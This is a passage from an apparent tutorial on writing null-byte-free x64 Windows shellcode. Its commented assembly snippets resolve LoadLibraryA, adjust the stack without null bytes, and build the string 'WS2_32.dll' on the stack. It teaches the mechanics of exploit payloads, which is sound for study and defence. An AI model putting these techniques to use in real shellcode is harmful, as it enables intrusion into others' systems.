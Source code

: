In the code, additions and subtractions are handled using a method similar to the one described earlier. However, since the `rax` register holds important addresses, other volatile registers that do not contain essential data are used for these operations to prevent interference with critical values, such as `r15`.

```
# The following assembly instructions are used to resolve LoadLibraryA using GetProcAddress
"  mov rcx, 0x41797261; "           # Load part of the string 'LoadLibra' into RCX
"  push rcx; "                      # Push the first half of the string onto the stack
"  mov rcx, 0x7262694c64616f4c; "   # Load the remaining part of the string 'LoadLibrary' into RCX
"  push rcx; "                      # Push the second half of the string onto the stack
"  mov rdx, rsp; "                  # Set RDX to point to the string 'LoadLibraryA' on the stack
"  mov rcx, r8; "                   # Copy the base address of the Kernel32 module into RCX
# "  sub rsp, 0x30; "               # Allocate space on the stack to preserve context for the call (Null byte)
# Null byte fix
" xor r15, r15; "                   # Zero out r15 to start fresh
" add r15, 0x30FFFFF; "             # Load r15 with a large number
" shr r15, 0x14; "                  # Right-shift r15 by 20 bits to get 0x30
" sub rsp, r15; "                   # Subtract 0x30 from rsp
```

Later in the process, since a critical address is stored in the `r15` register (in this instance, a handle), operations requiring temporary storage or modifications must utilize a different volatile register. For these tasks, the `ebx` register is employed to ensure the crucial data in `r15` remains undisturbed.

```
# " add rsp, 0x30;"                 # Restore the stack by removing the 48 bytes allocated (Null Byte)
# Null byte fix
" xor rbx, rbx; "                   # Zero out rbx to start fresh
" add rbx, 0x30FFFFF; "             # Load rbx with a large number
" shr rbx, 0x14; "                  # Right-shift rbx by 20 bits to get 0x30
" add rsp, rbx; "                   # Add 0x30 to rsp
```

When handling module names like `WS2_32.dll`, it is crucial to avoid generating null bytes, which can disrupt string processing in assembly code. Here, a strategy using smaller register operations, specifically with `al` (the lower byte of the `rax` register), allows for precise control over character insertion without introducing unwanted null bytes. The process is outlined step by step below:

```
# Call LoadLibraryA to load WS2_32.DLL 
" xor rax, rax;"                    # Clear RAX register
# " mov rax, 0x6C6C; "              # Load the last two characters "ll" into RAX (Null Bytes)
# Null Byte Fix
" mov al, 0x6C; "                   # Move 'l' into the lower byte of RAX
" shl rax, 8; "                     # Shift RAX left by 8 bits
" mov al, 0x6C; "                   # Move the second 'l' into the now empty lower byte of RAX
" push rax;"                        # Push "ll" onto the stack
" mov rax, 0x642E32335F325357;"     # Load "WS2_32.d" into RAX
" push rax;"                        # Push "WS2_32.d" onto the stack forming "WS2_32.dll"
```
